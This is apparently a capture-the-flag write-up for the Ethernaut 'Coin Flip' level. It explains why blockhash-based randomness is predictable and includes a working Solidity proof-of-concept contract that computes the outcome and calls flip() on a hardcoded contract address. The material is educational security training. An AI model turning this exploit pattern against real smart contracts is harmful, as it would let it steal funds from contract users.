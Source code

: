 # ⚙️ Challenge: Ethernaut – 03.Coin-flip

## Exploit Idea: Predictable Randomness

In this challenge, the idea is to exploit **weak randomness** based on `blockhash`.

---

## Concept Summary

We utilize the fact that:

```solidity
uint256(blockhash(block.number - 1)) / 2**255
```

...will always return either `0` or `1`, effectively leaking the most significant bit of the previous block hash — a weakness that can be exploited to predict the outcome of a coin flip.

---

## Proof of Concept

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

event CoinFlipResult(bool result);

contract GetBlockNumberAndHash {

    // Return previous block number
    function getBlockNumer() public view returns (uint256) {
        return block.number - 1;
    }

    // Predict the coin flip result and call the vulnerable contract
    function getCoinFlipPredit() public returns (bool success, bytes memory data) {
        bool predit = 1 == (
            uint256(blockhash(block.number - 1)) /
            57896044618658097711785492504343953926634992332820282019728792003956564819968
        );

        // Hardcoded vulnerable contract address (deployed separately)
        address coinFlipAddress = 0xA0376e3976A6A8Cc4422B88Bb63A1E97Ed846031;

        // Use low-level call to trigger `flip(bool)` function
        (success, data) = coinFlipAddress.call(
            abi.encodeWithSignature("flip(bool)", predit)
        );

        return (success, data);
    }
}
```

---

## Notes

###

- `FACTOR = 2^255` is used to extract the highest bit from the 256-bit blockhash.
- The `call` method is used here to avoid needing a formal interface, ideal for quick testing.
